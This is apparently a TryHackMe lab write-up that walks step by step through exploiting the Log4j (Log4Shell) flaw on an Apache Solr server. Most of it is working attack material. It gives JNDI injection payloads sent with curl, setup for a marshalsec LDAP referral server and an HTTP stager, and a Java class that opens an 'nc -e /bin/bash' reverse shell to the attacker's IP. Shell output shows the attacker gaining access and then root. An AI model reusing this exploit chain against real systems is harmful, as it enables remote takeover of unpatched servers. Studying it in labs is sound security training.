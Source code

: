# Log4j - Exploiting a Vulnerable Apache Solar Server


### Enumerating and Analyzing target
Dashboard can seen on admin front page when navigating to the victim's web server - lots of info here.
Verify that log4j in use for logging via nmap scan (all ports) - note info on dashboard as well.
If identified as vulnerable from recon, the exploit is possible, else the rest of this report is null.

Note log directory...
```-Dsolr.log.dir```

### In logs, find an entry point 

INFO entries with repeated endpoint requests -> parameter field

### Parameter will be used as the attack vector, with payload passed as a parameter

``` ${jndi:ldap://ATTACKERADDRESS} ```

Using JNDI to allow for external resource lookup, ATTACKERADDRESS will be a listener on the kali machine.

A basic listener that will be employed:
```$ nc -lnvp 4444```

## Remote Code Execution - Injection
 - Log4j processes logs by parsing entries, but it can also possibly EXECUTE code in entry.
 - Any data logged is vulnerable --- we have identified one entry point from the logs earlier as the cores directory.
  - Entry poiunt can also include forms/any source of user supplied data HTTP headers, 

Putting things together, here is an example of a maliciously crafted curl request:

```$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{10.9.1.93:4444\}'```

This payload will be delivered and executed by Log4j during parsing...
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.1.93:4444\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
  ```
  
Did the injection work for connnecting back to our machine??

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444     
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50884
0
 `�

```
It worked :D but what can we do with this, what are those weird characters??? 

## Exploitation 

We can run a referral server to redirect from LDAP to another location containing our desired payload.

### Need a simple http server to host some files on our machine that contains the good stuff (a stage??) ;) 
```python3 -m http.server```

### Need the LDAP referral server to redirect to the HTTP server where the stager resides

Ensure marshalsec is installed via ```mvn clean package -DskipTests``` after cloning the marshalsec git repository https://github.com/mbechler/marshalsec
There may be support for newer Java verisons, but marshalsec is originally developed to be used with the Java8 JDK (8u181), found at https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

Below we start up the refserver on our local system (this server waits for a connection, and then serves the redirect to whatever exploit we have)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```
The refserver listens on 1389 by default (LDAP) and then forwards to 8000...

Notice the .java ? Any payload going through Log2j will be executed as Java code...

## Now we have the meat of this RCE exploit: remotely executing arbitrary code of any Java file, malicious or not.

Create a .java file in your favorite IDE or text editor with the same name as [EXPLOITHERE]:

```java

public class NotSus{

	static{
		try{
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.1.93 4444"); // reverse shell connects back to us
		}
		catch(Exception e){
			;        // no unnecessary noise if anything goes wrong
		}
	}

}
```
Above is a simple reverse shell java class for the payload.

Compiling: 

```sh 
$javac NotSus.java

```


# Put things together, we start setting up the delivery of a staged payload...

In separate terminals:

File server with the payload - just hosting the current directory on pt 8000.
```sh
┌──(kali㉿kali)-[~/Documents]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

listen for incoming connections from the victim - keep an eye on this ;)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ nc -lnvp 4444                
listening on [any] 4444 ...

```
rfserver that the victim will connect back to, traffic forwarded to the python file server for the Java payload.
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

# HELLO COMPUTER, YOU HAVE A DELIVERY!! ;)) 
### The crafted GET request to the endpoint that is logging - go ahead and send it!!!!!!
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?pwn=$\{jndi:ldap://10.9.1.93:1389/NotSus\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
```


### nc listener - type a command and notice that we have gained full control, and can remotely do anything with our shell access
### the listener isn't the prettiest so consider sending a different payload or execute whatever java code you want

```sh
$ nc -lnvp...
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50930

whoami
solr
sudo su

whoami
root

```


## As always, from here are ways to establish persistence and C2 presence.
## Plz don't be lazy and audit your systems and commit to regular vulnerability management, this vulnerability has been disclosed for over a week now and machines EVERYWHERE are still being exploited >:(





Special thanks to John Hammond for making this simpler to understand (as always), and TryHackMe for providing the box!



